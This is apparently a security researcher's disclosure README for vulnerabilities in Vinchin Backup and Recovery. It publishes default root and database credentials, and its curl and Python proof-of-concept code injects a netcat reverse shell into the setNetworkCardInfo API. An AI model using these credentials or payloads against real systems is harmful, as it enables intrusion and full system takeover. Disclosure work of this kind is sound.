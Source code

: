 ## **Vinchin Backup and Recovery: Deep Dive into Critical Vulnerabilities**



https://github.com/Chocapikk/VinchinRCE/assets/88535377/97d0f492-23db-4672-b4c6-c0c512293100




**Introduction**:

Vinchin Backup and Recovery is a leading data protection solution employed by large enterprises and is extensively utilized across diverse environments, including virtual, physical, and cloud platforms. While its vast feature set caters to the diverse needs of these big corporations, it is not immune to security vulnerabilities. A meticulous analysis has recently exposed a series of critical flaws that can present significant risks to its users. For more details on their product and offerings, you can visit their official website at [vinchin.com](https://www.vinchin.com/).

---

**Collaboration and Acknowledgment**:

Our discovery and subsequent analysis of these critical vulnerabilities in Vinchin Backup and Recovery was a collective effort. It is pivotal to highlight the collaboration with the research team at **LeakIX**. Their expertise, rigorous methodologies, and unwavering dedication significantly contributed to uncovering and understanding these vulnerabilities. This endeavor underscores the importance of teamwork, shared knowledge, and mutual support in the cybersecurity domain.

Thanks to this synergized approach, we were not only able to identify these vulnerabilities but also to understand their implications deeply and propose viable mitigation steps. We extend our gratitude to the researchers at LeakIX and everyone involved in this project. Their shared vision for a safer digital landscape and commitment to ethical hacking practices have made this discovery possible.

## So let's start! :D

### 1. Default SSH Root Credentials (CVE-2024-22902)

Vinchin's implementation comes equipped with default root credentials, facilitating remote access:

- **Default Credentials**:
  - Username: `root`
  - Password: `Backup@3R`

**Associated Risks**:

  * Allowing **SSH root logins with a password** is a major security flaw.
  * The default password is **publicly documented**, making it a low-hanging fruit for attackers.
  * The installation workflow **does not** emphasize **the necessity of updating this default password**.

---

### 2. Hardcoded Database Credentials and Configuration Flaws (Previously identified as CVE-2022-35866 but remained unpatched in version 7.2) (CVE-2024-22901)

Vinchin's application employs a static set of credentials for its MySQL database:

- **Database Credentials**:
  - Username: `vinchin`
  - Password: `yunqi123456`

**Associated Risks**:

- Potential exposure of the **MySQL port to the public**.
- **Absence of hostname-based restrictions** for database logins.
- Attackers could potentially **alter the database**, such as **creating rogue admin users**, granting them **unauthorized system privileges**.


### 3. Post-Authentication Remote Code Execution (RCE) in `SystemHandler.class.php` and `ManoeuvreHandler.class.php`

Some functions within `/api/app/platform/SystemHandler.class.php` and `/api/app/platform/ManoeuvreHandler.class.php` has been identified as being susceptible to **Remote Code Execution**.

**Detailed Breakdown**:

[Source Code of vulnerable components](.../src/SystemHandler.class.php)

For more details on the specific vulnerabilities and their exploitation methods, refer to the dedicated Markdown files for each function:

- [setNetworkCardInfo Vulnerability Details (CVE-2024-22900)](./setNetworkCardInfo.md)
- [syncNtpTime Vulnerability Details (CVE-2024-22899)](./syncNtpTime.md)
- [deleteUpdateAPK Vulnerability Details (CVE-2024-22903)](./deleteUpdateAPK.md)
- [getVerifydiyResult Vulnerability Details (No CVE yet)](./getVerifydiyResult.md)

### **Exploitation Methods**:

#### A. Webdriver Chrome Simulation:

Given that the form data is encrypted using **JSEncrypt** and JavaScript is responsible for all XHR requests, executing a direct exploit becomes a complex task. A simpler, more intuitive method to simulate this exploit involves using a **Chrome WebDriver**. This technique simulates natural interactions with the web interface, allowing for circumvention of encryption and request management barriers.

For an effective demonstration of this method, refer to the provided image:


![Vinchin Exploit Demonstration via WebDriver](../src/poc.png)

#### B. `curl` Method (using setNetworkCardInfo as example):

For more extensive and automated exploitation scenarios, the `curl` method can be invaluable. While it might be more intricate than the WebDriver approach, it holds merit in scenarios requiring mass automation. The detailed `curl` exploit method is as follows:

```bash
curl -i -s -k -X POST \
-H 'Host: [IP]' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H 'Accept: */*' \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
-H 'Origin: [URL]' \
-H 'Connection: close' \
-b 'BackupSystem=[COOKIE_VALUE]' \
--data 'p={"nodeuuid":"[NODEUUID_VALUE]","NAME":"; nc -e /bin/sh [ATTACKER_IP] [ATTACKER_PORT]","IPADDR":"[IP]","NETMASK":"","GATEWAY":"","DNS":"","PREFIX":""}' \
[URL]/api/?m=8&f=setNetworkCardInfo
```

- Here an example how you could do the exploit in Python in this way :

```python
import requests
import json

cookies = {
    'BackupSystem': 'v108v9nv0akfqkgehl7h9e130f',
}

headers = {
    'Host': '192.168.1.23',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0',
    'Accept': '*/*',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Origin': 'https://192.168.1.23',
    'Connection': 'close',
}

payload = {
    "nodeuuid": "87de2178-38f0-45c7-8a06-b524b6c5940f",
    "NAME": "; /bin/nc -e /bin/bash 192.168.1.5 1338",
    "IPADDR": "192.168.1.23",
    "NETMASK": "",
    "GATEWAY": "",
    "DNS": "",
    "PREFIX": ""
}

data = {
    'm': '8',
    'f': 'setNetworkCardInfo',
    'p': json.dumps(payload)
}

print(data)

response = requests.post(
    'https://192.168.1.23/api/', 
    cookies=cookies, 
    headers=headers, 
    data=data, 
    verify=False
)          
               
print(response.text)
```

### **Exploit Chain**:

1. Attackers, by harnessing the hardcoded database credentials, can **infiltrate the MySQL database**.
2. Such access empowers them to **modify user data** or **instantiate new administrative users illicitly**.
3. With validated access to the web console, they can then leverage the **RCE vulnerability**, resulting in total system compromise.


In summation, the Vinchin Backup and Recovery systems are at risk from a series of intertwined vulnerabilities - **hardcoded credentials**, **database misconfigurations**, **and direct command execution flaws**. It's of utmost importance for system users and administrators to be cognizant of these vulnerabilities and to act swiftly in applying remediations.
